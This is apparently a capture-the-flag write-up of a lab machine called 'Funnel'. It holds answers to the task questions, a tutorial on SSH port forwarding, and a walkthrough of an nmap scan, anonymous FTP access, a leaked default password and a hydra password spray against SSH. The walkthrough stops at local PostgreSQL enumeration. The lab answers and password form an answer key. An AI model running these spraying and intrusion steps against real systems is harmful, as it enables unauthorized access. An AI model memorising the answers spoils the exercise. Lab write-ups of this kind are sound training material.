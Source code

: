 <center>Funnel</center>



[toc]







## Funnel

> Funnel







### 1. task

1. How many TCP ports are open?

```shell
2
```

2. What is the name of the directory that is available on the FTP server?

```shell
mail_backup
```

3. What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```shell
funnel123#!#
```

4. Which user has not changed their default password yet?

```shell
christine
```

5. Which service is running on TCP port 5432 and listens only on localhost?

```shell
postgresql
```

6. Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

```shell
local port forwarding
```

7. What is the name of the database that holds the flag?

```shell
secrets
```

8. Could you use a dynamic tunnel instead of local port forwarding? Yes or No.

```shell
yes
```



### 2. SSH隧道

> SSH 隧道是一种通过 SSH 协议建立的加密通道。
>
> 概念： [blog](https://blog.csdn.net/sycamorelg/article/details/134166718)

```shell
数据加密传输
绕过防火墙
端口转发
代理访问
```

````shell

#### 本地端口转发（Local Port Forwarding）
```bash
# 语法
ssh -L [本地IP:]本地端口:目标IP:目标端口 用户名@SSH服务器

# 示例：将本地3306端口转发到远程MySQL
ssh -L 3306:localhost:3306 user@remote_server

# 示例：访问内网服务
ssh -L 8080:internal_server:80 user@gateway_server
```


#### 远程端口转发（Remote Port Forwarding）
```bash
# 语法
ssh -R [远程IP:]远程端口:目标IP:目标端口 用户名@SSH服务器

# 示例：将远程8080端口转发到本地80
ssh -R 8080:localhost:80 user@remote_server

# 示例：内网穿透
ssh -R 80:localhost:3000 user@public_server
```


#### 动态端口转发（Dynamic Port Forwarding）
```bash
# 语法
ssh -D [本地IP:]本地端口 用户名@SSH服务器

# 示例：创建SOCKS代理
ssh -D 1080 user@remote_server

# 配置浏览器使用SOCKS代理
# 代理地址：127.0.0.1
# 端口：1080
```


### 3. 持久化配置

```config:~/.ssh/config
# 本地端口转发
Host mysql-tunnel
    HostName remote_server
    User username
    LocalForward 3306 localhost:3306

# 远程端口转发
Host web-tunnel
    HostName public_server
    User username
    RemoteForward 8080 localhost:80

# 动态端口转发
Host proxy-tunnel
    HostName remote_server
    User username
    DynamicForward 1080
```


### 5. 常见应用场景

#### 数据库访问
```bash
# MySQL远程访问
ssh -L 3306:database_server:3306 user@jump_server

# Redis访问
ssh -L 6379:redis_server:6379 user@jump_server
```

#### Web服务访问
```bash
# 访问内网Web服务
ssh -L 8080:internal_web:80 user@gateway

# 反向代理
ssh -R 80:localhost:3000 user@public_server
```


````









### 3. flag

>  获取flag

```shell
nmap -sC -sV IP
```

![image-20241202112103426](./assets/image-20241202112103426.png)

> ftp 匿名登陆

```shell
ftp IP
用户名： anonymous/空密码
```

> 下载ftp文件

![image-20241202112544598](./assets/image-20241202112544598.png)

```shell
cat welcome_28112022

optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb

cat password_policy.pdf

发现一个默认密码：funnel123#!#
```

> 对ssh和密码爆破

```shell
hydra -L user.txt -p "funnel123#!#" ssh://IP
```

> 登陆ssh

```shell
# 检查哪些端口在给定的机器上执行本地监听
ss -tln

# 检查在端口上运行的默认服务 为postgresql
ss -tl
```

> 确认有 postgresql 服务

```shell
# 检查并没有安装了postgresql客户端工具
psql

# 并且不能进行下载，需要root权限
apt install postgresql-client-common
```



